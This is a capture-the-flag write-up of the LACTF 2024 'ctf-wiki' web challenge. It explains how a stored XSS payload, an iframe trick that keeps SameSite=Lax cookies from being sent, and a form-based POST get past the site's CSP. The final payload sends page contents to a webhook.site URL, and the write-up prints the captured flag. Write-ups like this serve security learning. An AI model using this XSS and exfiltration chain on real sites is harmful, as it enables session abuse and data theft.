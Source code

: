 ```yaml
---
title: ctf-wiki
date: 2024-02-20
tags: 
- web
- xss
- cookies
- csp
- author-hartmannsyg
categories: LACTF 2024
---
```


written by {% person hartmannsyg %}

We have an xss (sorta):

on the `/create`, in the description that supports markdown, we can put in script tags. 

![](./static/LACTF2024/ctf-wiki-0.png)

If we view the page *without our authentication cookies* (like an incognito tab), we get an xss.

![](./static/LACTF2024/ctf-wiki-1.png)

However, if you are logged in (i.e. if there are cookies), we get redirected to the edit:

{% ccb lang:py caption:app.py gutter1:101-104 caption:app.py %}
@app.get("/view/<pid>")
def page(pid):
    if session.get("username") is not None and session.get("password") is not None:
        return redirect("/edit/{}".format(pid))
{% endccb %}

![](./static/LACTF2024/ctf-wiki-2.png)

So how do we access `/view/<pid>` without the session cookies?

{% ccb gutter1:12 lang:py caption:app.py %}
app.config["SESSION_COOKIE_SAMESITE"] = "Lax"
{% endccb %}

iframes only send SameSite=None cookies so if we set up our own website and use an iframe the cookies will not be sent:

{% ccb gutter1:1 lang:html caption:inject.html %}
<iframe src="https://ctf-wiki.chall.lac.tf/view/<pid>"></iframe>
{% endccb %}

Now that we have xss inside our iframe, we need to somehow access `/flag` *with* the cookies.

We can use window.open(), but we need to POST flag. We can't use scripts either due to the content security policy:
{% ccb gutter1:34-40 lang:py caption:app.py %}
@app.after_request
def apply_csp(response):
    if session.get("username") is not None and session.get("password") is not None:
        response.headers[
            "Content-Security-Policy"
        ] = "default-src 'self'; img-src *; font-src https://fonts.gstatic.com https://fonts.googleapis.com; style-src 'self' https://fonts.googleapis.com"
    return response
{% endccb %}

If we *edit* the opened window document:
{% ccb gutter1:1-7 lang:html caption:"player description" %}
<script>
    let w = window.open('https://ctf-wiki.chall.lac.tf/');
    
    w.onload = function () {
        w.document.write("<script>fetch('https://ctf-wiki.chall.lac.tf/flag',{method:'post'})<\/script>")
    }
</script>
{% endccb %}


We get
{% ccb terminal:true wrapped:true html:true %}
<span style='color:#E06C75;'>Refused to execute inline script because it violates the following Content Security Policy directive: "default-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-74J0XhNNZyeyG2hc6SR5UoGLY+N1BT22Dw9QC4ZeN/Y='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
</span>


{% endccb %}

So in order to send a POST request without scripts, we use a form and submit it.
{% ccb lang:html gutter1:1-11 caption:"player description" %}
<script>
    let w = window.open('https://ctf-wiki.chall.lac.tf/');
    
    w.onload = function () {
        w.document.body.innerHTML = `<form action="/flag" id="flagForm" method="post"></form>`;
        w.document.getElementById('flagForm').submit()
        setTimeout(()=>{
            console.log(w.document.body.innerText)
        }, 1000)
    }
</script>
{% endccb %}

We see that there is a `POST /flag` being sent (I went a bit overkill and track traffic via Requestly):

![](./static/LACTF2024/ctf-wiki-3.png)


Now we just need to steal the `w.document.body.innerText`

{% ccb lang:html gutter1:1-11 caption:"player description" %}
<script>
    let w = window.open('https://ctf-wiki.chall.lac.tf/');
    
    w.onload = function () {
        w.document.body.innerHTML = `<form action="/flag" id="flagForm" method="post"></form>`;
        w.document.getElementById('flagForm').submit()
        setTimeout(()=>{
            window.location = 'https://webhook.site/<id>/flag='+w.document.body.innerText;
        }, 1000)
    }
</script>
{% endccb %}
we get a request:
{% ccb terminal:true %}
https://webhook.site/<id>/flag=lactf%7Bk4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3%7D
lactf{k4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3}
{% endccb %}

